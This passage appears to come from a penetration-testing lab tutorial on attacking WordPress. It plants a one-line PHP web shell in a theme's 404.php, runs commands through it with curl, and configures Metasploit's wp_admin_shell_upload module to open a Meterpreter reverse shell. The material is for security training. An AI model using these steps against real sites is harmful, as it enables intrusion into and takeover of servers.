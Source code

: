 Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

Code: php

```php
system($_GET[0]);
```

The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.

&#x20;  ![](https://academy.hackthebox.com/storage/modules/113/theme\_editor.png)

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

&#x20; Attacking WordPress

```shell-session
root@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The [wp\_admin\_shell\_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp\_admin\_shell\_upload/) module from Metasploit can be used to upload a shell and execute it automatically.

The module uploads a malicious plugin and then uses it to execute a PHP Meterpreter shell. We first need to set the necessary options.

&#x20; Attacking WordPress

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

We can then issue the `show options` command to ensure that everything is set up properly. In this lab example, we must specify both the vhost and the IP address, or the exploit will fail with the error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.

&#x20; Attacking WordPress

```shell-session
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options 

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting           Required  Description
   ----       ---------------           --------  -----------
   PASSWORD   firebird1                 yes       The WordPress password to authenticate with
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.129.42.195             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                        yes       The target port (TCP)
   SSL        false                     no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                         yes       The base path to the wordpress application
   USERNAME   john                      yes       The WordPress username to authenticate with
   VHOST      blog.inlanefreight.local  no        HTTP server virtual host
```